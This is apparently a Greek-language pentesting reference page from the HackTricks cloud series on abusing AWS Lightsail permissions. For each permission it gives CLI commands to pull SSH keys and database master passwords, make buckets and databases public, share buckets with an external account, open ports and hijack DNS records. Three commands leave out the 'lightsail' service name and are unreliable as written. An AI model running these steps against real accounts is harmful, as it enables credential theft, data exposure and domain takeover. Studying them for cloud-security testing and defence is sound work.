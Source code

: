 # AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Για περισσότερες πληροφορίες σχετικά με το Lightsail, ελέγξτε:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Είναι σημαντικό να σημειωθεί ότι το Lightsail **δεν χρησιμοποιεί ρόλους IAM που ανήκουν στον χρήστη** αλλά σε έναν διαχειριζόμενο λογαριασμό AWS, οπότε δεν μπορείτε να εκμεταλλευτείτε αυτή την υπηρεσία για privesc. Ωστόσο, **ευαίσθητα δεδομένα** όπως κώδικας, κλειδιά API και πληροφορίες βάσης δεδομένων θα μπορούσαν να βρεθούν σε αυτή την υπηρεσία.

### `lightsail:DownloadDefaultKeyPair`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα κλειδιά SSH για να έχετε πρόσβαση στις περιπτώσεις:
```
aws lightsail download-default-key-pair
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:GetInstanceAccessDetails`

Αυτή η άδεια θα σας επιτρέψει να δημιουργήσετε κλειδιά SSH για να αποκτήσετε πρόσβαση στις περιπτώσεις:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στις περιπτώσεις.

### `lightsail:CreateBucketAccessKey`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε ένα κλειδί για να έχετε πρόσβαση στον κάδο:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στον κάδο.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Αυτή η άδεια θα σας επιτρέψει να αποκτήσετε τα διαπιστευτήρια για να έχετε πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:UpdateRelationalDatabase`

Αυτή η άδεια θα σας επιτρέψει να αλλάξετε τον κωδικό πρόσβασης για να αποκτήσετε πρόσβαση στη βάση δεδομένων:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Αν η βάση δεδομένων δεν είναι δημόσια, μπορείτε επίσης να την κάνετε δημόσια με αυτές τις άδειες με
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Πιθανές Επιπτώσεις:** Βρείτε ευαίσθητες πληροφορίες μέσα στη βάση δεδομένων.

### `lightsail:OpenInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:PutInstancePublicPorts`

Αυτή η άδεια επιτρέπει το άνοιγμα θυρών στο Διαδίκτυο. Σημειώστε ότι η κλήση θα κλείσει οποιαδήποτε θύρα έχει ανοιχτεί που δεν έχει καθοριστεί σε αυτήν.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε ευαίσθητες θύρες.

### `lightsail:SetResourceAccessForBucket`

Αυτή η άδεια επιτρέπει να δοθεί σε μια παρουσία πρόσβαση σε έναν κάδο χωρίς επιπλέον διαπιστευτήρια.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateBucket`

Με αυτή την άδεια, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει την δική του AWS λογαριασμό πρόσβαση ανάγνωσης σε buckets ή ακόμα και να κάνει τα buckets δημόσια σε όλους:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Πιθανές Επιπτώσεις:** Πιθανή νέα πρόσβαση σε buckets με ευαίσθητες πληροφορίες.

### `lightsail:UpdateContainerService`

Με αυτές τις άδειες, ένας επιτιθέμενος θα μπορούσε να παραχωρήσει πρόσβαση σε ιδιωτικά ECRs από την υπηρεσία κοντέινερ.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Πιθανές Επιπτώσεις:** Λάβετε ευαίσθητες πληροφορίες από ιδιωτικό ECR

### `lightsail:CreateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει ένα SPF record που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμη και να ορίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

### `lightsail:UpdateDomainEntry`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να δημιουργήσει υποτομέα και να τον κατευθύνει στη δική του διεύθυνση IP (κατάληψη υποτομέα), ή να δημιουργήσει ένα SPF record που του επιτρέπει να παραποιεί emails από τον τομέα, ή ακόμα και να ρυθμίσει τον κύριο τομέα στη δική του διεύθυνση IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Πιθανές Επιπτώσεις:** Κατάληψη ενός τομέα

{{#include ../../../banners/hacktricks-training.md}}
